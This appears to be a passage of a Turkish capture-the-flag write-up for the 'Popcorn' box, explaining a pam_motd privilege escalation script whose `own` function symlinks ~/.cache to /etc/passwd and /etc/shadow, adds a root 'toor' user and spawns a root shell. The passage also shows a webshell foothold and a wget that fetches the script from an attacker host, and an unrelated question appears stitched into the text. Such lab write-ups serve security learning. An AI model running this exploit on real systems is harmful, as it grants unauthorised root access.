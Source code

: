 `key_create` bir SSH anahtarı oluşturur ve bunu mevcut kullanıcının ana dizinine kurar, mevcut olanları yedeklemeye dikkat eder.

`backup ~/.cache` bunu yapacaktır - dizinin yedek bir kopyasını oluşturur.

`own` fonksiyonu incelemeye değerdir:

```
own() {
    [ -e ~/.cache ] && rm -rf ~/.cache
    ln -s "$1" ~/.cache || return 1
    echo "[*] spawn ssh"
    ssh -o 'NoHostAuthenticationForLocalhost yes' -i "$KEY" localhost true
    [ -w "$1" ] || { echo "[-] Own $1 failed"; restore ~/.cache; bye; }
    echo "[+] owned: $1"
}
```

Eğer `~/.cache` mevcutsa, önce onu kaldırır. Ardından, hedef dosyaya (öncelikle `/etc/passwd`, ardından `/etc/shadow`) bağlantı oluşturur. Daha sonra, doğru komutu çalıştırmak ve sonra bağlantıyı kesmek için SSH bağlantısı kurar. Son olarak, dosyada yazma izinlerinin olup olmadığını doğrular.

`own` fonksiyonunun her çağrısında yazma erişimi elde eder ve ardından bir satır ekler, böylece root kullanıcı olarak "toor" kullanıcısını ekler, tıpkı manuel olarak yaptığım gibi.

Sonrasında `.cache` dosyasını geri yükler ve eklenen SSH anahtarını temizler.

Son olarak, su -c komutunu, `toor` kullanıcısı olarak root yetkileriyle çalıştıracak şekilde çağırır. Parolayı (`toor`) girdiğimde, aşağıdaki komut çalıştırılır:

- `toor` kullanıcısının `/etc/passwd` ve `/etc/shadow` dosyalarındaki satırını siler;
- Her iki dosyanın sahibini root yapar;
- `/etc/shadow` dosyasının grubunu shadow yapar;
- `nscd`, isim hizmetleri için bir önbellekleme daemon'ıdır ve bu, [önbelleği geçersiz kılar](https://linux.die.net/man/8/nscd);
- Ardından bir shell başlatır.

Temelde, işlem kendini temizler ve sonra bir shell başlatır.

Bu tür otomatik temizlik ve bağlantı manipülasyonu senaryolarında genellikle hangi güvenlik önlemleri öncelikli olmalıdır?



#### Run
Kutuyu sıfırladım, bir webshell'i yeniden yükledim, pty ile bir shell aldım. Sonra Python web sunucusu (python3 -m http.server 80) ve wget kullanarak scripti yükledim:

```
www-data@popcorn:/dev/shm$ wget 10.10.14.14/pam_motd.sh
--2020-06-21 22:28:38--  http://10.10.14.14/pam_motd.sh
Connecting to 10.10.14.14:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3043 (3.0K) [text/x-sh]
Saving to: `pam_motd.sh'

100%[======================================>] 3,043       --.-K/s   in 0.004s  

2020-06-21 22:28:38 (761 KB/s) - `pam_motd.sh' saved [3043/3043]
```
